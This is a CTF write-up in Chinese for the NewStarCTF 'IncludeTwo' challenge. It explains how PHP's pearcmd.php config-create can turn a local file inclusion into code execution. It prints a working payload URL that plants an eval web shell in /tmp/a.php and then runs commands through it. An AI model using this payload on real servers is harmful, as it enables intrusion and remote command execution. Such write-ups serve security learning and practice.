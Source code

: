 

![img](https://peekaboo.show/content/images/2022/11/7a45667543f1bbd50dee794bc1be6d7c.png)



# WEEK3 IncludeTwo 200



#### 0、知识点与工具

>   pecl/pear中的pearcmd.php

>   文件包含

>   工具burpsuite



#### 1、关于pearcmd.php

>   7.4及以后，需要我们在编译PHP的时候指定`--with-pear`才会安装。

>   pecl是PHP中用于管理扩展而使用的命令行工具，pear是pecl的依赖库‌
>   ‌在Docker任意版镜像中，都会被默认安装，路径为：/usr/local/lib/php，‌
>   ‌而pearcmd.php就在这个路径中：/usr/local/lib/php/pearcmd.php

详细了解可以看看这个

‌

[Docker PHP裸文件本地包含综述 | 离别歌phith0n的小站，长期存在与分享关于网络安全与各种编程的原创文章。![img](https://www.leavesongs.com/static/cactus/images/favicon-192x192.png)离别歌phithon![img](https://www.leavesongs.com/media/attachment/2021/11/01/e8198610-1181-4f2b-8e49-c7348a9a9bef.7a577b438fb6.png)](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)



‌



### 2、解题

>   其中config-create是pear中的参数，他的作用是：会把第一个参数的内容写入第二个参数所指定的文件中，然后就可以构造playload

‌

```
/?+config-create+/&file=/usr/local/lib/php/pearcmd&/<?=eval($_POST[_]);?>+/tmp/a.php
```



‌



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/1000000000000008.png)

‌

>   末尾处会会在/tmp目录下面生成一个a.php文件，然后我们再去包含一下这个文件，因为我们再这个a.php中内嵌了一个<?=eval($_POST[_]);?>‌
>   ‌ 所以需要访问这个文件，然后在post中传入远程命令





![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/ctfImg/NewStarCTF/Week3/1000000000000009.png)



![img](https://peekab.oss-cn-hangzhou.aliyuncs.com/image/124354uyjfhgfv.png)





>   然后获得flag


